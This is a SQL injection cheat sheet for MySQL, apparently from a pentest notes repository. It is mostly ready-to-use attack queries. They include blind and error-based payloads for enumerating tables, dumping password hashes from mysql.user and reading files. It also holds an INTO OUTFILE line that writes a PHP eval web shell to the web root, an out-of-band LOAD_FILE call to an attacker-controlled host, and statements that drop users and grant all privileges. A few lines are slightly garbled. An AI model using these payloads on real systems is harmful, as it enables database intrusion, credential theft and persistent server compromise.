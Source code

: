# SQL Injection Cheat Sheet MySQL  :syringe:

Inspired by
[SQL-Injection-Cheat-Sheet-MySQL](https://blog.safebuff.com/2016/04/11/SQL-Injection-Cheat-Sheet-MySQL/) and 
[SecurityIdiots](http://www.securityidiots.com/Web-Pentest/SQL-Injection/)


[Advanced](https://github.com/0xC2-0xC2/Pentest-notes-1/blob/master/SQL_injection.txt)

by: Eduardo Barbosa (@Anake)  :alien::smiling_imp::boom: 


- [SQL Injection Cheat Sheet MySQL](#SQL-Injection-Cheat-Sheet-MySQL)
    - [Comments](#Comments)
    - [Version](#Version)
    - [User details](#User-details)
    - [Database details](#Database-details)
    - [Database credentials](#Database-credentials)
    - [Server details](#Server-details)
    - [Table Name](#Table-Name)
    - [Find Tables From Column Name](#Find-Tables-From-Column-Name)
    - [Columns Names](#Columns-Names)
    - [Bitwise AND](#Bitwise-AND)
    - [No Quotes](#No-Quotes)
    - [String Concatenation](#String-Concatenation)
    - [If Statement](#If-Statement)
    - [Avoiding Quotes](#Avoiding-Quotes)
    - [Case Statement](#Case-Statement)
    - [Conditionals](#Conditionals)
    - [Time-delay](#Time-delay)
    - [Command Execution](#Command-Execution)
    - [RunAs](#RunAs)
    - [Read Files](#Read-Files)
    - [Outfile Files to www](#Outfile-Files-to-www)
    - [Out-of-Band Retrieval](#Out-of-Band-Retrieval)
    - [Substrings](#Substrings)
    - [Retrieve Nth Line](#Retrieve-Nth-Line)
    - [Select Nth Row](#Select-Nth-Row)
    - [List Privileges](#List-Privileges)
    - [List DBA Accounts](#List-DBA-Accounts)
    - [Delete Users](#Delete-Users)
    - [Make User DBA](#Make-User-DBA)
    
    
## SQL Injection Cheat Sheet MySQL

### Comments

```
--	 #	MySQL Linux Style            
--+      #	MySQL Windows Style          
#	 #	Hash (URL encode while use)  
--+-	 #	SQL Comment                  
;%00	 #	Null Byte                    
`        #      Backtick   
/*
```

### Version

```
SELECT VERSION();
SELECT @@VERSION;
SELECT @@GLOBAL.VERSION;
```

### User details

```
SELECT user()
SELECT current_user()
SELECT current_user
SELECT system_user()
SELECT session_user()
SELECT user,password FROM mysql.user;   # list Users
```

### Database details

```
SELECT db_name();
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### Database credentials

```
SELECT host, user, password FROM mysql.user;
```

### Server details

```
SELECT @@hostname;
```

### Table Name

```
SELECT table_name FROM information_schema.tables;
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #all tables
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'; #Blind
and 0<(select count(*) from xxx) and 1<2    #盲注爆表

AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))
(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5
```

### Find Tables From Column Name

```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'columnname';#find table which have a column called 'columnname'
and 0<(select count(xxx) from tbl_user) and 1<2 ＃盲注爆字段
```

### Columns Names

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### Bitwise AND

```
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

### No Quotes 

```
CONCAT(CHAR(97), CHAR(98), CHAR(99))
```

### String Concatenation

```
CONCAT(foo, bar)
```

### If Statement

```
SELECT if(1=1,'foo','bar'); -- returns 'foo'
```

### Avoiding Quotes

```
SELECT 0×414243; # returns ABC
```
### Case Statement

```
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

### Conditionals

```
SELECT IF(1=1,'true','false');
```

### Time-delay

```
SELECT BENCHMARK(1000000,MD5(‘A’));
SELECT SLEEP(5); # >= 5.0.12
```

### Command Execution

```
http://dev.mysql.com/doc/refman/5.1/en/adding-udf.html
```

### RunAs

```
N/A
```

### Read Files

```
SELECT LOAD_FILE('C:Windowswin.ini');
```

### Outfile Files to www

```
select 0x3C3F706870206576616C28245F504F53545B7A5D293B3F3E into outfile '/usr/local/var/www/webshell.php' # <?php eval($_POST[z]);?>"
```

### Out-of-Band Retrieval

```
SELECT LOAD_FILE(concat('\\',(SELECT 1), 'attacker.controlledserver.com\')));
```

### Substrings

```
SELECT substr('Foobr', 1, 1);
```

### Retrieve Nth Line

```
SELECT * FROM table ORDER BY ID LIMIT 3,1
````

### Select Nth Row

```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 1 offset 1    #bypass limit 1,1
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename' limit 1 offset 2
```

### List Privileges

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;

list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;
   
priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;
    
list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;
    
list privs on columns
```

### List DBA Accounts

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';
SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; # priv

```

### Delete Users

```
DROP USER test1;
```

### Make User DBA

```
GRANT ALL PRIVILEGES ON *.* TO test@'%';
```
